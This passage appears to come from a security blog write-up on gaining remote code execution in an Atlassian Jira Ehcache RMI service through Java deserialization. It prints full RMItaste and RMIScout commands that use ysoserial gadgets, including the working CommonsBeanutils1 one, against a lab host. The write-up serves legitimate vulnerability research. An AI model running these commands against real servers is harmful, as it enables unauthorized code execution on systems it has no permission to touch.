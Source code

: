 This seemed important, and digging into the source again I found it had decided `RMICachePeer_Stub` was a dynamic stub, and as such tried to cast it as a proxy. I tried changing the method to call `invokestaticstub` instead, and reran the DNS lookup attempt.

### Finding the right gadget

This did actually perform a DNS lookup, so I knew I was on the right path. Next I tried to bruteforce the interface with ysoserial gadgets to find one that allowed code execution, which RMItaste supports using the "-gen bruteforce" argument.  

```
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -c 'notepad.exe' -gen bruteforce -m "com.atlassian.gadgets.renderer.internal.cache.gadgetSpecs:net.sf.ehcache.distribution.RMICachePeer_Stub:getQuiet"  -t 192.168.200.136 -p 40001
```

While it did return the rather promising message `Remote method has been invoked with payload: Spring2 notepad.exe`, unfortunately no notepad.exe was forthcoming.

I began wondering if this vulnerability required a custom Java deserialization gadget, which would probably be a pain to find and exploit. Before embarking down that route I read the output of the tool a little more closely, and noticed it didn't include all the ysoserial gadgets! This is because a list of gadgets to bruteforce is hardcoded in the RMItaste source, rather than dynamically discovered from the ysoserial jar. 

A quick bit of bash later I had it trying every payload ysoserial has to offer, resulting in a notepad.exe spawning! As a sidenote, calc.exe did not spawn even with a working exploit. I assume this is because it is now a UWP app? 

[![]({{ site.baseurl }}/assets/jira.PNG)]({{ site.baseurl }}/assets/jira.PNG)

This turned out to be due to the CommonsBeanutils1 gadget working successfully. So now I had a working POC, excellent.

### Additional

After copying the ehcache library into the RMIscout classpath and invoking it properly, I found it could also happily exploit the issue when given the appropriate signature:
```
$ java -cp 'ehcache-2.10.2-atlassian-18.jar:build/libs/rmiscout-1.4-SNAPSHOT-all.jar' com.bishopfox.rmiscout.RMIScout exploit -s 'net.sf.ehcache.Element getQuiet(java.io.Serializable param0)' -p ysoserial.payloads.CommonsBeanutils1 -c "notepad.exe" -n com.atlassian.gadgets.renderer.internal.cache.gadgetSpecs 192.168.200.136 40001
[INFO] Attempting operation on the "com.atlassian.gadgets.renderer.internal.cache.gadgetSpecs" registry.
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
<..error stack trace snip..>
[INFO] Re-running execute without overwriting java.lang.String types.
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
<..error stack trace snip..>
[ERROR] Payload was not invoked. Check the accuracy of the signature.

```

It throws an error, but the exploit does work.
